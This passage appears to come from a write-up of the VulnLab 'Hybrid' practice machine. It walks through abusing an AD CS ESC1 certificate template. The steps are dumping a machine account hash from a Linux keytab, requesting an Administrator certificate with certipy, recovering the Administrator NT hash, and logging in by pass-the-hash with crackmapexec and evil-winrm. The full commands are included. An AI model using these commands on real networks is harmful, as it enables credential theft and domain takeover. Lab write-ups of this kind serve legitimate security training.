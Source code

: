 You'll notice the `ESC1` vulnerability indicator at the bottom of the template, which is telling us that `Domain Computers` can enroll supplies subject and also allows client authentication. This essentially means that any user can request a certificate on behalf of any other user in the network, even if that user is a privileged user (such as `Administrator`).

So technically speaking, we can use our `peter.turner` credentials to generate a certificate on behalf of `Administrator`, right? Unfortunately, it's not that simple in our case.
As you can see, the only role that can do this is `HYBRID.VL\\Domain Computers`, which means that only domain computers can perform this.

Now this is relatively easy to move around, as we already have control of another computer on the domain - the recent `MAIL01` computer that we just compromised previously. We'll need to find the NTLM hash of this domain computer, which we would normally just dump through tools such as `mimikatz` on a Windows machine. On a Domain-joined Linux machine, the NTLM hashes for the domain computer can usually be found in `/etc/krb5.keytab` in my experience.

![](/images/vulnlab/hybrid-vl/t.png)

Upon trying to read the file, we'll find out that it's unreadable since it is encrypted.
We can easily circumvent this by using a tool called `keytabextract.py`, which will dump the contents of this file in plaintext. https://github.com/sosdave/KeyTabExtract

![](/images/vulnlab/hybrid-vl/u.png)

We can now use this NTLM hash to proceed with our certificate request.
`certipy-ad req -u 'MAIL01$'@hybrid.vl -hashes '0f916c5246fdbc7ba95dcef4126d57bd' -ca 'hybrid-DC01-CA' -template HybridComputers -target hybrid.vl -upn 'administrator@hybrid.vl' -dns dc01.hybrid.vl -key-size 4096 -debug`

Once again as a reminder, make sure that `dc01.hybrid.vl` and `hybrid.vl` both are set to the IP address of the DC in your `/etc/hosts` file. Just a reminder.
This should save a certificate and private key to a file called `administrator_dc01.pfx`. We can use this `.pfx` to now authenticate to the DC and dump the Administrator's NT hash.

`certipy-ad auth -pfx administrator_dc01.pfx -username 'administrator' -domain 'hybrid.vl' -dc-ip 10.10.238.53`
This will dump the NT hash in plaintext, to which we'll use the second part of the hash to authenticate.

![](/images/vulnlab/hybrid-vl/v.png)

Let's test our ability to authenticate to WinRM with these credentials using Pass-the-Hash on CrackMapExec.
`crackmapexec winrm 10.10.238.53 -u 'Administrator' -H '60701e8543c9f6db1a2af3217386d3dc'`

```
SMB         10.10.238.53    5985   DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:hybrid.vl)
HTTP        10.10.238.53    5985   DC01             [*] http://10.10.238.53:5985/wsman
WINRM       10.10.238.53    5985   DC01             [+] hybrid.vl\Administrator:60701e8543c9f6db1a2af3217386d3dc (Pwn3d!)
```

That `Pwn3d!` notification denotes that we can now access the machine through WinRM.
`evil-winrm --ip 10.10.238.53 -u 'Administrator' -H '60701e8543c9f6db1a2af3217386d3dc'`
